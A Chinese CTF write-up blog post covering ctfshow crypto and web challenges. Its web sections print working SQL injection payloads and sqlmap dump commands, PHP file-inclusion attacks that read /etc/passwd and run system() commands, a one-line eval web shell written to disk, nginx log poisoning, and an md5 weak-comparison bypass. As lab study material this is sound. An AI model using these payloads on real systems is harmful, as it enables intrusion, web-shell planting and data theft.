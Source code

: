 ```yaml
---
layout:     post
title:      2021-08-09-ctfshow做题笔记
subtitle:   2021-08-09-ctfshow做题笔记
date:       2021-8-9
author:     YY——阳阳
header-img: img/post/1.jpg
catalog: true
tags:
    - 笔记
    - ctf
---
```


**作者：鸿鹄（阳阳）**

## crypto
#### crypto签到-14
这些题目包含了常用的密码学
- rot密码
- 凯撒密码
- jsfuck、表情密码（均可直接在控制台运行出来）
- OoK加密
- brainfuck
  * https://www.splitbrain.org/services/ook
- [rsa算法](https://baike.sogou.com/v453178.htm?fromTitle=rsa)   
  * https://mp.weixin.qq.com/s?src=11&timestamp=1628757653&ver=3247&signature=rQMa*8AVCpkLz3zO51g4PQnvqRrUmMNHxGK2dGg00-NV4J9naXyDWYcd5s05PJmu6uCDkFTw3j7GZHj8-FGPRmdLvf4xfcLwz7ZtULSqaLD4ToQ-MAnT5as8rZOXFwgx&new=1
- Rabbit加密
- serpent加密
  * http://serpent.online-domain-tools.com/
- Quoted-printable解码
  * http://web.chacuo.net/charsetquotedprintable/
- md5（32位）
- 埃特巴什码
- 


## web

#### web 签到题

1. F12打开控制台,源码注释发现字符串,根据经验进行base64解码即可.[https://base64.us/](https://base64.us/)
2. 也可以view-source

#### web2

- 方法一

简单的sql注入,我们使用万能密码发现注入点在username,并且有回显

[![f1vRnP.png](https://z3.ax1x.com/2021/08/09/f1vRnP.png)](https://imgtu.com/i/f1vRnP)

然后进行常规手工注入即可

```mysql
sql手工注入常用语句：

普通语句：schema_name——数据库名；table_name——表名；column_name——字段名；

查询数据库：select schema_name from information_schema.schemata#

　　　　　　slelect database()#

查询数据库表：select table_name from information_schema.tables where table_schema='数据库名'#

查询字段名：select column_name from infromation_schema.columns where table_name='表名'#

查询字段内容：select * from 表名#
```



```sql
admin' or 1=1 order by 3#	//有回显
admin' or 1=1 order by #	//无回显

admin' or 1=1 union select 1,2,3#	//位置是2

admin' or 1=1 union select 1,database(),3#	//数据库名字是web2

admin' or 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()#	//表名字为flag,user

admin' or 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name="flag"#	// 字段名为flag

admin' or 1=1 union select 1,flag,3 from flag#	//得到flag
```

ctfshow{add81b69-8f21-4e43-b091-105ef61e4a71}

- 方法二

  直接sqlmap跑即可

  1. 把之前抓取的数据复制到sqlmap根目录下test.txt内[![f39XY8.png](https://z3.ax1x.com/2021/08/09/f39XY8.png)](https://imgtu.com/i/f39XY8)

  2. 保存完成后开始跑

      ```
      python sqlmap.py -r test.txt --dbs
      python sqlmap.py -r test.txt -D web2 --tables
      python sqlmap.py -r test.txt -D web2 -T flag --columns
      python sqlmap.py -r test.txt -D web2 -T flag -C flag --dump
      ```

#### web3

 `<?php include($_GET['url']);?>`

文件包含，发现测试`url=/etc/passwd`有回显[![f3ZFRx.png](https://z3.ax1x.com/2021/08/09/f3ZFRx.png)](https://imgtu.com/i/f3ZFRx)

- 方法一

我们利用php伪协议 php://input post提交命令，hackbar不太行，使用bp

<?php system("ls") ?>

<?php system("cat ctf_go_go_go") ?>

ctfshow{ff020599-61ce-47e7-877d-37a36638edd5}

- 方法二

?url=data:*//text/plain,<?php print_r(glob("\*")); ?>*

- 方法三

url=data:text/plain,<?php fputs(fopen("shell.php","w"),"<?php @eval($_POST['hack']);?>")?>

然后进行菜刀链接

- 方法四

因为是nginx服务器也可以使用日志包含

#### web4

使用nginx的日志包含

?url=/var/log/nginx/access.log可以打开

然后把一句话写到ua头中

然后进行菜刀链接即可

#### web5

```php
<?php
        $flag="";
        $v1=$_GET['v1'];
        $v2=$_GET['v2'];
        if(isset($v1) && isset($v2)){
            if(!ctype_alpha($v1)){
                die("v1 error");
            }
            if(!is_numeric($v2)){
                die("v2 error");
            }
            if(md5($v1)==md5($v2)){
                echo $flag;
            }
        }else{
        
            echo "where is flag?";
        }
    ?>
```

> **代码审核：**get传参绕过
>
> ctype_alpha ( string $text ) : bool
>
> 做纯字符检测如果在当前语言环境中 text 里的每个字符都是一个字母，那么就返回true，反之则返回false。
>
> 
>
> is_numeric() 函数
>
> 用于检测变量是否为数字或数字字符串。如果指定的变量是数字和数字字符串则返回 TRUE，否则返回 FALSE。
>
> 同时php弱类型比较，当比较的双方类型不相同时，会先转化成相同的再进行比较，如果转化之后都是以0e为开头的字符串，则==成立。

取v1=QNKCDZO v2=240610708

## web入门

#### web1







